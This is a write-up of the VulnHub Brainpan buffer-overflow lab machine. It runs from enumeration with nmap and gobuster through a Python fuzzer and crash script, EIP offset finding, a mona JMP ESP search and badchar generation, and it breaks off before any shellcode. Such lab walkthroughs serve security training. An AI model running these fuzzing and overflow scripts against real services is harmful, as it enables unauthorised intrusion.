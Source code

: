 # BrainPan BufferOverflow VulnHub Machine 
Hello! I am [Mohamed](https://twitter.com/0xMohomiester) This is My WriteUp for Brainpan BufferOverflow VulnHub Machine ok Let's start with download machine from [VulnHub Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/) and setup it on vmware or virtual box as you like I already finished the setup you shoud see :

![brainp](https://user-images.githubusercontent.com/47929033/130876624-1b4dc000-bcb9-467c-87db-30b5ec3af179.png)

That's great Let's start with enumeration I need to know ip address of machine so i will use command 
`sudo netdiscover` to find ip address: 

![Screen Shot 2021-08-26 at 12 44 34 AM](https://user-images.githubusercontent.com/47929033/130876911-b5242212-661d-4646-989c-c8772a9b85d2.png)

as you can see the ip address: `192.168.1.13` with `vmware,inc` hostname now we need to perform port scanning I will use nmap to scan for open port and service on machinewith command:

`sudo nmap 192.168.1.13` : 

![Screen Shot 2021-08-26 at 12 48 27 AM](https://user-images.githubusercontent.com/47929033/130877152-5af6c1f5-28b4-4bc2-bc16-dc239560a2c5.png) 

as you can see two ports are open `9999,10000` let's check port `9999` with netcat using command 
`nc -nvv 192.168.1.13 9999`:

![Screen Shot 2021-08-26 at 12 49 00 AM](https://user-images.githubusercontent.com/47929033/130877337-dbaddc9d-fb3c-4a03-add2-ed49cbea2e7e.png)

as you can see this is the vulnerable service: `Brainpan`,maybe port `10000` is web server let's check it with open it in web browser: 

![Screen Shot 2021-08-26 at 12 49 20 AM](https://user-images.githubusercontent.com/47929033/130877350-d1d98332-3831-4c9b-a820-031966af52d9.png) 

That's Great, It's web server that run on port `10000` now we need to discover some interesting directories that hidden in webiste by using Gobuster using command: 
`gobuster dir  --url http://192.168.1.13:10000/  -w /home/kali/Desktop/directory-list-2.3-medium.txt`

![Screen Shot 2021-08-26 at 12 40 56 AM](https://user-images.githubusercontent.com/47929033/130877722-9c037be4-a6f8-4f5d-8e69-5cd6e10d891e.png)

as you can see i found directory `/bin` let me see in browser: 

![Screen Shot 2021-08-26 at 12 40 35 AM](https://user-images.githubusercontent.com/47929033/130877992-ccdee6c7-91a5-4197-8106-e54b5839a92c.png)

oh! it's e executable file now we need to switch to windows machine on vmware to run programe
i will tranfer the programe to windows machine and run it: 

![Screen Shot 2021-08-26 at 1 43 00 AM](https://user-images.githubusercontent.com/47929033/130878391-e18acbce-e348-4f65-b4a3-cbdb54794f49.png)

as you can see the programe listen on port 9999 and waitin for connection, we need [Immunity Debugger](https://debugger.immunityinc.com/) to open application and see how it works During exploition phase
I already download it , I will open and run it as administrator to attach service: 

![Screen Shot 2021-08-26 at 1 49 10 AM](https://user-images.githubusercontent.com/47929033/130878958-189b07db-6e2d-41bd-a594-fe77294799a0.png) 

as you can see service name: `Brainpan` with PID `2108` after attack it run programe from `F9` in your keyboard and make sure that the programe is running in the right down side: 

![Screen Shot 2021-08-26 at 1 49 38 AM](https://user-images.githubusercontent.com/47929033/130879173-18bcdd76-6286-44f6-836a-95ea16152d9a.png)

as you can see programe runing we need now to Discover bufferoverflow vulnerability using fuzzing in my Kali Linux attacking machine I written simple fuzzer using python: 

```
#!/usr/bin/python

import socket 

counter = 100

ip = "192.168.1.15"

port = 9999

while (counter<=5012):
      
     print("payload sent")

     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
     payload = 'A' * counter
   
     s.connect((ip, port))

     s.send(payload + "\r\n")
     
     s.recv(1024)
     
     s.close()
     
     counter+=100
    
     print(payload + "\n")

print(len(payload))
```

That's Great Let's run our fuzzer to Discover crash on application: 

![Screen Shot 2021-08-26 at 2 06 17 AM](https://user-images.githubusercontent.com/47929033/130880235-d06b1266-0fa1-40c3-8cfa-4f5e77a413b9.png) 

as you can see fuzzer stoped with string of `AAA` how to know number of `A` ? it's very simple let me to create a file with `touch aa.txt` and copy string to file and use command: `cat aa.txt | wc -c`:

![Screen Shot 2021-08-26 at 2 07 45 AM](https://user-images.githubusercontent.com/47929033/130880433-95cb1c84-9dcc-4192-b79b-173a7490b81c.png)

as you can see tha programe crased and EIP register: `41414141`

![Screen Shot 2021-08-26 at 2 06 32 AM](https://user-images.githubusercontent.com/47929033/130881445-09e4193f-8c01-4a6e-8116-6cbcea6d23fc.png)

The string that crased applicaton: `600` of `A`, That's Great now we can write a exploit to know which four bytes that OverWrtie `EIP`: 

### Hint : CTR+F2 to restart debugger and service  and F9 to run debugger and service 

exploit:

```
#!/usr/bin/python 
import socket 

buffer = 'A' * 600 

print 'payload sent'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 

s.connect(('192.168.1.15',9999))

s.send(buffer + "\r\n")

s.recv(1024)

s.close()

```
I will run exploit to see the programe crash or not : 

![Screen Shot 2021-08-26 at 2 26 21 AM](https://user-images.githubusercontent.com/47929033/130881239-d8dcb070-d15a-480c-adfb-fd28dacba624.png)

as you can see the programe crashed Now, let's create a unique string with `msf-pattern-create`, using command: `msf-pattern_create -l 600` and copy the unique string to exploit :

![Screen Shot 2021-08-26 at 2 35 02 AM](https://user-images.githubusercontent.com/47929033/130881775-6f0d9492-07ad-4060-b0af-083e2ef4c33b.png)

as you can see the programe crashed at EIP: `35724134` we can now use `msf-pattern-offset`
to know which four bytes that OverWrite `EIP` by using command `msf-pattern_offset -q 35724134`:

```
[*] Exact match at offset 524
```
Now we need to OverWrite EIP with `BBBB` i will send `524 * A` + `BBBB` + `72 * C` 
then Total Length: 600 then exploit should be: 

![Screen Shot 2021-08-26 at 2 50 19 AM](https://user-images.githubusercontent.com/47929033/130882763-af86b608-bbc4-4d07-9a6d-8f33c9a74b48.png)

let's run exploit to see the crash:

![Screen Shot 2021-08-26 at 12 59 09 PM](https://user-images.githubusercontent.com/47929033/130951288-663f42f7-c034-4222-9885-2b42cf3f1524.png)

as you can see we can control EIP register with `BBBB` that's Great, now we need to find `JMP ESP` register to execute our shellcode in the application to get shell we can use [mona.py](https://github.com/corelan/mona) to do this operation, first I will use command: `!mona modules` to find mosules  that don't have ASLR and DES: 

![Screen Shot 2021-08-26 at 1 06 26 PM](https://user-images.githubusercontent.com/47929033/130952539-25118c43-c5f0-4010-99d0-fd3a529296aa.png)

as you can see this is module, we will use module with have all false `brainpan.exe` but we need to use `msf-nasm-shell` to know the code of `JMP ESP register` we can use command: `msf-nasm-shell`
then type `JMP ESP`, Just Like the image Below: 

![Screen Shot 2021-08-26 at 1 15 29 PM](https://user-images.githubusercontent.com/47929033/130953400-3f30e6ab-5c8e-4167-a8ea-b6d82994bddb.png)

Now we can use mona command: `!mona find -s '\xff\xe4' -m barinpan.exe` : 

![Screen Shot 2021-08-26 at 1 19 40 PM](https://user-images.githubusercontent.com/47929033/130954379-c392d007-48f1-4fdf-b398-84ee0183f380.png)

as you can see the address is `0x311712f3` that's Great we need Now to Discover Badchar that cutting shellcode and can break code execution let's learn how to know `Badchar`, you can create a string of most common badchar with followin python code:

```
import sys
for x in range(1,256):
    sys.stdout.write("\\x" + '{:02x}'.format(x))
```
![Screen Shot 2021-08-26 at 1 30 56 PM](https://user-images.githubusercontent.com/47929033/130955423-5d6085c7-0cd1-46bd-b0e2-b03ed0d6430e.png)

as you can see this is badchar string let's copy it to exploit and send it: 

![Screen Shot 2021-08-26 at 1 35 08 PM](https://user-images.githubusercontent.com/47929033/130955928-ff9bd0a3-fd38-4718-a2ce-b7da8fdfd3e4.png) 

let's run our exploit to see how to know badchar from stack: 


